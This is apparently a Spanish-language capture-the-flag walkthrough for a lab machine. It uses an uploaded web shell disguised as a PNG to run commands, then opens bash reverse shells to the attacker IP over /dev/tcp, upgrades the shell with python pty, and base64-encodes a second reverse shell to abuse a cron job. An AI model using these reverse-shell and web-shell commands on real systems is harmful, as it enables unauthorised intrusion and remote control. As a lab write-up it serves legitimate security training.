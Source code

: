 
##### vamos a 10.129.233.150/uploads/10_10_14_49.php.png y tratamos de inyectar comandos

```html
10.129.233.150/uploads/10_10_14_49.php.png?cmd=id
```

![[Pasted image 20250619161912.png]]

>De esta manera nos ahorramos ver todo el texto de la imagen y vemos directamente la respuesta de los comandos


### Mandamos una shell a nuestra IP

Nos ponemos en escucha por el puerto 443 

![[Pasted image 20250619162146.png]]

Desde la web mandamos la shell

```html
10.129.233.150/uploads/10_10_14_49.php.png?cmd=bash -c "bash -i %26> /dev/tcp/10.10.14.49/443 0>%261"
```

![[Pasted image 20250619162304.png]]

#### una vez recibimos la shell la tratamos con python 
![[Pasted image 20250619162509.png]]
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

>ctrl +z

![[Pasted image 20250619162653.png]]


>ahora hay que tratar de llegar al usuario guly 

>leemos los archivos del directorio guly donde vemos que se ejecuta un cron y que no sanitiza la informacion 

![[Pasted image 20250619162916.png]]


#### realizamos un script de r.shell codificado en base64

>vamos al directorio /var/www/html/uploads

>Realizamos la r.shell en base64

```bash
echo -n 'bash -c "bash -i &> /dev/tcp/10.10.14.49/4444 0>&1"' |base64
```
